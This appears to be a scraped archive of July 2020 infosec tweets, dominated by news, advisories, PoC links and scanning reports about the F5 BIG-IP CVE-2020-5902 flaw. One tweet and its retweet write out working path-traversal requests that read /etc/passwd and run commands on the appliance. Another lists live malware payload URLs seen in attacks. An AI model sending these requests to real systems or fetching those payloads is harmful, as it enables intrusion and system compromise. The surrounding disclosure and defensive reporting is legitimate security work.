<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>197</code></td>
</table></tr>

---

# threatintelctr
**https://twitter.com/threatintelctr/status/1281222174431342592 _at 2020-07-09 13:42:24_**
<blockquote>
🚨 NEW: CVE-2020-9377 🚨 ** UNSUPPORTED WHEN ASSIGNED ** D-Link DIR-610 devices allow Remote Command Execution via the cmd parameter to command.php. NOTE: This vulnerability only affects products that are no longer ... (click for more)  https://t.co/KUM2YhH1Ky
</blockquote>

* https://gist.github.com/GouveaHeitor/131557f9de7d571f118f59805df852dc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# LukasStefanko
**https://twitter.com/LukasStefanko/status/1281186602975465472 _at 2020-07-09 11:21:04_**
<blockquote>
Bug chaining in Android MX Player to achieve code execution

1) receive shared data file from other device (wireless)
2) data file will exploit path traversal vulnerability
3) RCE of received file

PoC: https://t.co/nssFuah6BK 
https://t.co/aOOmGxzNmu via @CE2Wells #BugBounty https://t.co/6VuDf38nbm
</blockquote>

* https://github.com/tenable/poc/tree/master/MXPlayer
* https://medium.com/tenable-techblog/android-mx-player-path-traversal-to-code-execution-9134b623eb34

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>102</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1281168794061344768 _at 2020-07-09 10:10:18_**
<blockquote>
RT @IanColdwater: New K8s security advisory: CVE-2020-8558. 

A security issue in kube-proxy allows adjacent hosts to reach TCP &amp; UDP servi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# wdormann
**https://twitter.com/wdormann/status/1280944249257762817 _at 2020-07-08 19:18:02_**
<blockquote>
What's that? You haven't had enough network appliance vulnerabilities yet? Fine.
https://t.co/rFkqpdA1Ps
CVE-2020-2034 is: an unauthenticated network-based attacker can execute arbitrary OS commands with root privileges.
</blockquote>

* https://security.paloaltonetworks.com/CVE-2020-2034

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>41</code></td>
</table></tr>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1280939235055296513 _at 2020-07-08 18:58:06_**
<blockquote>
An exploitation case study of CVE-2020-1062, a use-after-free vulnerability in IE11 https://t.co/a13K4NcCyG
</blockquote>

* https://www.accenture.com/us-en/blogs/cyber-defense/exploitation-case-study-cve-2020-1062-vulnerability-in-ie11

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>44</code></td>
</table></tr>

---

# IanColdwater
**https://twitter.com/IanColdwater/status/1280900915092951042 _at 2020-07-08 16:25:50_**
<blockquote>
New K8s security advisory: CVE-2020-8558. 

A security issue in kube-proxy allows adjacent hosts to reach TCP &amp; UDP services bound to 127.0.0.1 running on the node or in the node's network namespace. Severity: high if insecure port enabled, otherwise med.

https://t.co/dC4Bgwp0ah
</blockquote>

* https://github.com/kubernetes/kubernetes/issues/92315

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>183</code></td>
</table></tr>

---

# ehakkus
**https://twitter.com/ehakkus/status/1280750903167979523 _at 2020-07-08 06:29:45_**
<blockquote>
(CVE-2020-14930) #metasploit auxiliary module is ready for authentication bypass #0day which I discovered in CTROMS port management application. You can access #exploit and description from my personal blog. https://t.co/7rOJKtFuz5 (EDB-ID: 48196) https://t.co/Ld2IXEFsWJ
</blockquote>

* https://bit.ly/31QmcnU

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>79</code></td>
</table></tr>

---

# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1280643826009456640 _at 2020-07-07 23:24:15_**
<blockquote>
👀

&gt; F5 BIG-IP RCE CVE-2020-5902 exploit
&gt; Detected several minutes ago
&gt; Exploit slung exclusively over TLS
&gt; Source IP in M247, known APT favorite
&gt; IP is also running a Mullvad VPN gateway, via https://t.co/LHK7DddYEl

HMMmmm

https://t.co/TL6le6dLKz https://t.co/krBm6koRN8
</blockquote>

* http://spur.us
* https://viz.greynoise.io/ip/45.152.183.30

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>109</code></td>
</table></tr>

---

# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1280619226454163458 _at 2020-07-07 21:46:30_**
<blockquote>
Someone in Namecheap already using the Metasploit module to exploit the F5 Big-IP CVE-2020-5902 RCE vuln. 

This module was merged to master in Metasploit GitHub...... four hours ago

https://t.co/1qiPhBgXFU https://t.co/SrsTj3LkS5
</blockquote>

* https://viz.greynoise.io/ip/63.250.33.58

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>327</code></td>
</table></tr>

---

# TeamAresSec
**https://twitter.com/TeamAresSec/status/1280553293320781825 _at 2020-07-07 17:24:31_**
<blockquote>
If you are relying on mitigations for CVE-2020-5902 we highly recommend that you patch. Our researchers @CharlesDardaman and @0xm1rch found a bypass to the mitigation and are working with F5 to have the advisory updated. #infosec #CVE https://t.co/IqmtfZ8WER
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>170</code></td>
<td>Favorites: <code>296</code></td>
</table></tr>

---

# dalvarezperez87
**https://twitter.com/dalvarezperez87/status/1280548510140706816 _at 2020-07-07 17:05:30_**
<blockquote>
A buggy behavior located into CreateFile allows to hide malware from users and AV scanners. Microsoft will not fix it: https://t.co/qa3yaH6jyk #CreateFile #malware #rootkit #antivirus
</blockquote>

* https://github.com/dalvarezperez/CreateFile_based_rootkit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>124</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1280509470800588800 _at 2020-07-07 14:30:23_**
<blockquote>
Intermediate Python : https://t.co/YIsHFWPWl9 

More : https://t.co/R2YSBmrgT8 credits @yasoobkhalid
</blockquote>

* https://book.pythontips.com/en/latest/
* https://github.com/yasoob/intermediatePython/blob/master/index.rst

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>117</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1280495476324929536 _at 2020-07-07 13:34:46_**
<blockquote>
Cloud Services Enumeration – AWS, Azure and GCP : https://t.co/iXNde84yNB credits @notsosecure || @exploitprotocol

Also check out enumerate-iam : Enumerate the permissions associated with AWS credential set : https://t.co/pTzBPRxX3M @w3af
</blockquote>

* https://www.notsosecure.com/cloud-services-enumeration-aws-azure-and-gcp/
* https://github.com/andresriancho/enumerate-iam

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>55</code></td>
</table></tr>

---

# xyhky3
**https://twitter.com/xyhky3/status/1280494317136744448 _at 2020-07-07 13:30:10_**
<blockquote>
CVE-2020-5902 - F5 RCE PoC: 
 some other

https://t.co/N2qZGNqzjl

https://t.co/CwB3zZINWT
</blockquote>

* https://github.com/yassineaboukir/CVE-2020-5902
* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1280490188788006912 _at 2020-07-07 13:13:46_**
<blockquote>
Attacking and Auditing Docker Containers and Kubernetes Clusters : https://t.co/sjn7Si7QY9  credits @abh1sek || @_riddhishree || @madhuakula || @c0ld_b00t3r 

Also check : Kubernetes Goat :  "Vulnerable by Design" Kubernetes Cluster : https://t.co/ABKl6rkNJU credits @madhuakula
</blockquote>

* https://github.com/appsecco/attacking-and-auditing-docker-containers-and-kubernetes-clusters
* https://github.com/madhuakula/kubernetes-goat

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>102</code></td>
</table></tr>

---

# xyhky3
**https://twitter.com/xyhky3/status/1280489104153575431 _at 2020-07-07 13:09:27_**
<blockquote>
Rapid7 published in their Github account an exploit/PoC for BigIP directory traversal &amp; file upload RCE CVE-2020-5902. 

https://t.co/CwB3zZrcyj
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1280481089736208390 _at 2020-07-07 12:37:36_**
<blockquote>
Breaking and Pwning Apps and Servers on AWS and Azure - Free Training Courseware and Labs : https://t.co/XiEHITOA6K credits @0xbharath || @riyazwalikar || @makash
</blockquote>

* https://github.com/appsecco/breaking-and-pwning-apps-and-servers-aws-azure-training

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>106</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1280478029001580551 _at 2020-07-07 12:25:26_**
<blockquote>
The Art of Subdomain Enumeration : https://t.co/Zvxk3hRTgA credits  @0xbharath

Book : https://t.co/YZLxWefxt1
</blockquote>

* https://github.com/appsecco/the-art-of-subdomain-enumeration
* https://appsecco.com/books/subdomain-enumeration/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>83</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1280477183492812800 _at 2020-07-07 12:22:05_**
<blockquote>
Attacking CloudGoat 2 - A step by step walkthrough of CloudGoat 2.0 scenarios : https://t.co/Wpj93VaJbU credits @0xbharath

CloudGoat 2.0 : a "vulnerable by design" AWS deployment tool : https://t.co/ah7nhCxoKq

Github : https://t.co/dUEdyDFrUh
</blockquote>

* https://github.com/appsecco/attacking-cloudgoat2
* https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/
* https://github.com/RhinoSecurityLabs/cloudgoat

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>82</code></td>
</table></tr>

---

# hackyzh
**https://twitter.com/hackyzh/status/1280349365958094848 _at 2020-07-07 03:54:11_**
<blockquote>
I have publish Microsoft Word Use After Free Poc.Because this requires the victim to delete the text box to trigger, Microsoft decided to close the issue, so I made it public. #vulnerabilities 

https://t.co/PNe4nB5G8W https://t.co/cqYK3vrR98
</blockquote>

* https://github.com/whiteHat001/MIcrosoft-Word-Use-After-Free

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>213</code></td>
</table></tr>

---

# TeamAresSec
**https://twitter.com/TeamAresSec/status/1280279161219633152 _at 2020-07-06 23:15:13_**
<blockquote>
Since multiple exploits have been released for CVE-2020-5902 we have decided to share what @0xm1rch and @CharlesDardaman did in order to gain code execution on the F5 Big IPs #infosec  https://t.co/HzjPlYWo35
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>212</code></td>
</table></tr>

---

# theflow0
**https://twitter.com/theflow0/status/1280224554393178122 _at 2020-07-06 19:38:13_**
<blockquote>
Here you are, https://t.co/cdVyvdqGZ6, PS4 kernel exploit for FW 7.02 and below. Vulnerability discovered on 2019-06-09.

This must be chained together with a WebKit exploit, for example https://t.co/1BYe1aFGCe for FW 6.50.
</blockquote>

* https://hackerone.com/reports/826026
* https://github.com/Fire30/bad_hoist

<table><tr>
<td>Quotes: <code>97</code></td>
<td>Replies: <code>312</code></td>
<td>Retweets: <code>800</code></td>
<td>Favorites: <code>3171</code></td>
</table></tr>

---

# ZecOps
**https://twitter.com/ZecOps/status/1280215619267248128 _at 2020-07-06 19:02:43_**
<blockquote>
[TOOL RELEASE] Due to popular demand we created an SMBGhost/SMBleed vulnerability scanner based on our SMBGhost RCE work: https://t.co/D99CSmlG53
See README for instructions &amp; safe usage https://t.co/XZafKlVOCf
</blockquote>

* https://github.com/ZecOps/SMBGhost-SMBleed-scanner

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>108</code></td>
</table></tr>

---

# esizkur
**https://twitter.com/esizkur/status/1280203443592933381 _at 2020-07-06 18:14:20_**
<blockquote>
Interesting strategic move:. @TencentGlobal / @keen_lab starts building a GNN-based binary code similarity database (called BinaryAI, comes with IDAPython plugin):

code: https://t.co/vQLTNKNj2j
paper: https://t.co/9emfnPXEUP

(HT @CodeColorist)
</blockquote>

* https://github.com/binaryai/sdk
* https://keenlab.tencent.com/en/whitepapers/Ordermatters.pdf

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>55</code></td>
</table></tr>

---

# ajxchapman
**https://twitter.com/ajxchapman/status/1280200420363767810 _at 2020-07-06 18:02:19_**
<blockquote>
Spamming Bug Bounty programs with 1-day exploits (see CVE-2020-5902) is the Ambulance Chasing of bug hunting. Any sensible program will have a condition to allow them time to patch before paying out for these issues. #BugBounty #UnpopularOpinion
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>289</code></td>
</table></tr>

---

# Bugcrowd
**https://twitter.com/Bugcrowd/status/1280194481397080064 _at 2020-07-06 17:38:43_**
<blockquote>
BREAKING 🚨 Bugcrowd security researchers are working around the clock to stop cybercriminals from stealing admin passwords using the CVE-2020-5902 remote code execution vulnerability in BIG-IP. Read the latest: https://t.co/QJMJrVXYZs https://t.co/M3JBuof4z3
</blockquote>

* https://www.helpnetsecurity.com/2020/07/06/exploit-cve-2020-5902/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>181</code></td>
</table></tr>

---

# CISO_Thoughts
**https://twitter.com/CISO_Thoughts/status/1280154273679097858 _at 2020-07-06 14:58:57_**
<blockquote>
#CyberSecurity: #Rapid7 published in their #Github account an exploit/PoC for #F5 #BigIP directory traversal &amp; file upload #RCE CVE-2020-5902. Can't stress enough on the immidiate need of enterprises to patch this right now.

#Vulnerability
#InfoSec
#CISO
 https://t.co/YzeCBZpu1X
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1280153168391921664 _at 2020-07-06 14:54:34_**
<blockquote>
GreyNoise is observing "vuln check probes" and active opportunistic exploitation of the recent F5 RCE vulnerability CVE-2020-5902 from multiple devices. Tags are available for all users now. 

tags:"F5 BIG-IP TMUI RCE"
tags:"F5 BIG-IP TMUI RCE Vuln Check"

https://t.co/aJm1oPboj6 https://t.co/vHZbvOln22
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22F5%20BIG-IP%20TMUI%20RCE%22

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>237</code></td>
</table></tr>

---

# infosecnews_
**https://twitter.com/infosecnews_/status/1280096111332655105 _at 2020-07-06 11:07:50_**
<blockquote>
USCYBERCOM urgently recommends F5 customers to patch CVE-2020-5902 and 5903 NOW https://t.co/PHxFRwUPV1 #InfoSec #Security #F5 #InfoSecNews #RCE #PoC #ZeroDay #Hacker #Hackers #Hacking #Russia #China #CVE #USCYBERCOM
</blockquote>

* https://www.infosecnews.org/uscybercom-urgently-recommends-f5-customers-to-patch-cve-2020-5902-and-5903-now/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>48</code></td>
</table></tr>

---

# arturwojtkowski
**https://twitter.com/arturwojtkowski/status/1280076123553095680 _at 2020-07-06 09:48:25_**
<blockquote>
CVE-2020-5902 - #F5 RCE PoC: 

https://t.co/hMycXvEjHH

https://t.co/syxdKsFMKn

#redteam #blueteam #Pentesting
</blockquote>

* https://github.com/yassineaboukir/CVE-2020-5902
* https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1280070065896017926 _at 2020-07-06 09:24:20_**
<blockquote>
We're now seeing staged payloads for the F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 vuln - see - https://t.co/sSr4JIZwu3 https://t.co/o1Z7lTWSW8
</blockquote>

* https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>33</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1280033103751282689 _at 2020-07-06 06:57:28_**
<blockquote>
RT @wugeej: F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/pass…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# wugeej
**https://twitter.com/wugeej/status/1280008779359125504 _at 2020-07-06 05:20:49_**
<blockquote>
F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license

RCE
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

https://t.co/3Ete09oVP6 https://t.co/zBAfdIZBa2
</blockquote>

* https://github.com/dunderhay/CVE-2020-5902

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>180</code></td>
<td>Favorites: <code>454</code></td>
</table></tr>

---

# yassineaboukir
**https://twitter.com/yassineaboukir/status/1280001566775431168 _at 2020-07-06 04:52:09_**
<blockquote>
Critical F5 Big IP RCE PoC CVE-2020-5902: https://t.co/tnEXwcktKx
</blockquote>

* https://github.com/yassineaboukir/CVE-2020-5902

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</table></tr>

---

# dragonstar7722
**https://twitter.com/dragonstar7722/status/1279994274302488576 _at 2020-07-06 04:23:10_**
<blockquote>
CVE-2020-5902のPOC。LFIとRCE。こちらも公開されていますねー。

https://t.co/4ySXfh6NBe

#F5 #poc
</blockquote>

* https://github.com/dunderhay/CVE-2020-5902

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# bad_packets
**https://twitter.com/bad_packets/status/1279986441385172993 _at 2020-07-06 03:52:03_**
<blockquote>
Active DDoS malware payload detected:
http://panel.devilsden[.]net/iot.sh
http://185.172.111.233:999/sisi/*
 (https://t.co/qmOnNTxywH)

Exploit attempt source IP: 2.57.122.96 (🇷🇴)

Target: F5 BIG-IP TMUI RCE vulnerability CVE-2020-5902 (https://t.co/y5Uor8B0qi) #threatintel https://t.co/oprQHizid7
</blockquote>

* https://www.virustotal.com/gui/url/d855d772abbc14e7629ce714fa563d1c0e46c35a2bd86f5325724e6a9c35986c/details
* https://badpackets.net/over-1800-f5-big-ip-endpoints-vulnerable-to-cve-2020-5902/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>82</code></td>
</table></tr>

---

# certbund
**https://twitter.com/certbund/status/1279892212449447941 _at 2020-07-05 21:37:37_**
<blockquote>
🩹⚠️ Operators of #F5 BIG-IP systems (LTM, AAM, AFM, Analytics, APM, ASM, DNS, FPS, GTM, Link Controller, PEM) should patch ➡️ remote code execution vulnerability CVE-2020-5902 in Traffic Management User Interface (TMUI) now. Active scanning/exploitation is ongoing.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>42</code></td>
</table></tr>

---

# omespino
**https://twitter.com/omespino/status/1279885683255984129 _at 2020-07-05 21:11:40_**
<blockquote>
Hey mates, it's just me or twitter feed is flooded of CVE-2020-5902, lol #bugbounty #infosec https://t.co/VIJwRHwwSP
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>370</code></td>
</table></tr>

---

# catc0n
**https://twitter.com/catc0n/status/1279883738579709952 _at 2020-07-05 21:03:57_**
<blockquote>
We've seen a lot of PoC for CVE-2020-5902 that gets to file reads or info disclosures—Metasploit published initial exploit code today that gets a root shell on vulnerable BIG-IP versions. https://t.co/2Thr74Rt8R
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>201</code></td>
<td>Favorites: <code>382</code></td>
</table></tr>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1279882456175276032 _at 2020-07-05 20:58:51_**
<blockquote>
Here's an NMAP script to detect F5's BIG-IP servers vulnerable to recently disclosed RCE #vulnerability (CVE-2020-5902).

https://t.co/voeLuOHz2u

via @RandomDhiraj 

#infosec
</blockquote>

* https://twitter.com/RandomDhiraj/status/1279842348348956672

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>112</code></td>
</table></tr>

---

# MrTuxracer
**https://twitter.com/MrTuxracer/status/1279869037607084032 _at 2020-07-05 20:05:32_**
<blockquote>
While everybody is working on CVE-2020-5902, I am trying to get my first own browser exploit to work. My ROP chain to bypass DEP seems to be the problem atm and it drives me super crazy 🦄🦄

But it still feels good to get back to my roots!😊
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>108</code></td>
</table></tr>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1279848212606615552 _at 2020-07-05 18:42:46_**
<blockquote>
CVE-2020-5902 F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed.. https://t.co/laQLPQXf7K
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>37</code></td>
</table></tr>

---

# bad_packets
**https://twitter.com/bad_packets/status/1279843915978338304 _at 2020-07-05 18:25:42_**
<blockquote>
Our preliminary CVE-2020-5902 scans have located 1,832 vulnerable F5 hosts.

System administrators need to upgrade to fixed versions ASAP. A proof-of-concept exploit is now publicly available.
</blockquote>

<table><tr>
